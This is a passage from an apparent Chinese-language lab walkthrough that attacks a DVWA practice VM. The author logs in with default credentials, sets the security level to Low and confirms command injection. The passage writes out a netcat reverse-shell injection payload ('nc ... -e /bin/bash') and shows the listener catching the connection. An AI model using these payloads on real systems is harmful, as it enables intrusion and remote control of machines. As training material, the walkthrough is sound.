 ### 2.3. Web 服务探测 (Web Enumeration)

访问 80 端口的 HTTP 服务 `http://192.168.205.203/wordpress/`。

![DVWA Login Page](https://7r1umphk.github.io/image/20250501141142075.png)

页面显示为 DVWA (Damn Vulnerable Web Application) 的登录界面。DVWA 是一个知名的故意包含漏洞的 Web 应用，用于安全测试和学习。

DVWA 通常有默认的登录凭据。

![DVWA Logged In](https://7r1umphk.github.io/image/20250501141310014.png)

## 3. 获取初始访问权限 (Initial Access - DVWA Command Injection)

### 3.1. 漏洞发现与利用 (Vulnerability Discovery & Exploitation)

* **登录 DVWA:** 尝试使用 DVWA 的默认凭据 `admin` / `password`。成功登录。

  ![image-20250501141405799](https://7r1umphk.github.io/image/20250501141405948.png)

* **寻找注入点:** 浏览 DVWA 的功能模块，发现 "Command Injection" 模块。

* **初步测试:** 尝试执行简单命令，如 `127.0.0.1; id`。

  ![Initial Command Injection Attempt (Blocked)](https://7r1umphk.github.io/image/20250501141546233.png)

  初始尝试被 DVWA 的安全级别阻止。

* **降低安全级别:** DVWA 允许调整安全级别。导航到 "DVWA Security" 页面，将安全级别设置为 "Low"。

  ![Setting Security Level to Low](https://7r1umphk.github.io/image/20250501141634505.png)

* **再次测试:** 在 "Low" 安全级别下，再次尝试命令注入。输入 `127.0.0.1; id`。

  ![Successful Command Injection (Low Security)](https://7r1umphk.github.io/image/20250501141746295.png)

  命令 `id` 成功执行，确认存在命令注入漏洞。

* **构造反弹 Shell Payload:** 为了获取交互式 Shell，构造一个反弹 Shell Payload。
  Payload: `127.0.0.1;nc 192.168.205.188 8888 -e /bin/bash`

* **设置监听器:** 在攻击机 (Kali) 上使用 `nc` 设置监听器，等待反弹连接。

  ```bash
  ┌──(kali㉿kali)-[/mnt/hgfs/gx/test]
  └─$ nc -lvnp 8888            
  listening on [any] 8888 ...
  ```

* **执行 Payload:** 在 DVWA 的命令注入页面提交反弹 Shell Payload。

### 3.2. 获取 Shell (Gaining Access)

提交 Payload 后，DVWA 页面会持续加载。返回 Kali 终端，监听器应收到连接。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/test]
└─$ nc -lvnp 8888            
listening on [any] 8888 ...
connect to [192.168.205.188] from (UNKNOWN) [192.168.205.203] 35542 # <-- 连接成功
```
